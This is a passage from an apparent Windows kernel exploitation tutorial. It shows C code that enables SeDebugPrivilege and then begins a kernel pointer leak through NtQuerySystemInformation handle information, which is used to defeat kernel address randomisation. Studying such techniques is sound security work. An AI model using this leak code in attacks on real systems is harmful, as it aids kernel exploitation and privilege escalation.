 Before that, a quick note:
Since windows 11 24H2 NtQuerySystemInformation will no longer return a kernel pointer unless the process is running with SeDebugPrivilege enabled.
https://windows-internals.com/kaslr-leaks-restriction/

So let's also add that. (As this already assumes you are admin)
```c
LSTATUS RequirePrivilege(LPCTSTR lpPrivilege) {
	HANDLE hToken;
	BOOL bErr = FALSE;
	TOKEN_PRIVILEGES tp;
	LUID luid;

	bErr = LookupPrivilegeValue(NULL, lpPrivilege, &luid); // lookup LUID for privilege on local system
	if (bErr != TRUE) {
		return -1;
	}
	bErr = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken);
	if (bErr != TRUE) {
		return -2;

	}

	if (ANYSIZE_ARRAY != 1) {
		return -3;
	}
	tp.PrivilegeCount = 1; // only adjust one privilege
	tp.Privileges[0].Luid = luid;
	tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	bErr = AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL);
	// check GetLastError() to check if privilege has been changed
	if (bErr != TRUE || GetLastError() != ERROR_SUCCESS) {
		printf("AdjustTokenPriv failed with error: %d\n", GetLastError());
		return -4;
	}
	printf("[+] Added privilege\n");
	CloseHandle(hToken);
	return 0;
}
```

Kernel leak:
```c
#define SystemHandleInformation 0x10
#define SystemHandleInformationSize 1024 * 1024 * 2

typedef NTSTATUS(WINAPI* fnNtQuerySystemInformation)(
	SYSTEM_INFORMATION_CLASS SystemInformationClass,
	PVOID                    SystemInformation,
	ULONG                    SystemInformationLength,
	PULONG                   ReturnLength
	);

typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO
{
	USHORT UniqueProcessId;
	USHORT CreatorBackTraceIndex;
	UCHAR ObjectTypeIndex;
	UCHAR HandleAttributes;
	USHORT HandleValue;
	PVOID Object;
	ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, * PSYSTEM_HANDLE_TABLE_ENTRY_INFO;
```
